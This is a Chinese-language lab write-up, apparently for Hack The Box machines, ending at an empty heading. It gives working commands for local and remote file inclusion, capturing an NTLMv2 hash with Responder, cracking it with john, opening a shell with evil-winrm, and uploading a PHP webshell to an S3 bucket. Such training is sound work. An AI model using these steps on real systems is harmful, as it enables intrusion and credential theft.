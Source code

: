 ### Crocodile

通过 FTP 匿名登录获得敏感账号密码：`admin/rKXM59ESxesUFHAd`，通过 nmap 发现主机开放 80 端口，`gobuster dir -u http://<ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x .php` 可以发现存在 `/login.php`，用刚才得到的账号密码即可登录。

### Responder

浏览器访问 Box 的 IP 会跳转到 unika.htb，此时可能需要修改 hosts 才能正常访问网页，如果浏览器中有 SwitchyOmega 之类的插件还需要设置成直接连接模式。

通过语言切换页面的 URL 发现使用的是 PHP，参数 `page` 疑似存在文件包含漏洞。尝试本地文件包含成功：

```
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```

随后启动 Responder：`sudo responder -I tun0 -wd`，并触发远程文件包含：

```
http://unika.htb/index.php?page=//<my_ip>/somefile
```

此时服务器通过 SMB 访问 Responder 服务，带出 Administrator 用户的 NTLMv2 哈希。最后用 john 爆破哈希：

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

获得 Administrator 密码 `badminton`。随后对 Box 进行端口扫描，发现 5985 端口开放，这是 Windows 远程管理服务（WinRM）的端口。使用 evil-winrm 连接即可获得 shell：

```bash
$ evil-winrm -i <box_ip> -u Administrator -p badminton
```

### Three

修改 hosts 之后，需要使用 gobuster 的 vhost 模式以及 `--append-domain` flag 进行子域名爆破：

```bash
$ gobuster vhost -u http://thetoppers.htb -w amass/subdomains-top1mil-5000.txt --append-domain thetoppers.htb
```

发现存在子域名 `s3.thetoppers.htb`，添加解析后利用 AWS CLI 列举 S3 Buckets，发现存在 `thetoppers.htb` Bucket，随后再列举文件：

```bash
$ aws configure
# ...
$ aws --endpoint http://s3.thetoppers.htb s3 ls
$ aws --endpoint http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

可以发现网站采用 PHP 编写，利用 AWS CLI 上传 Webshell 即可取得控制权：

```bash
$ aws --endpoint http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

### Ignition

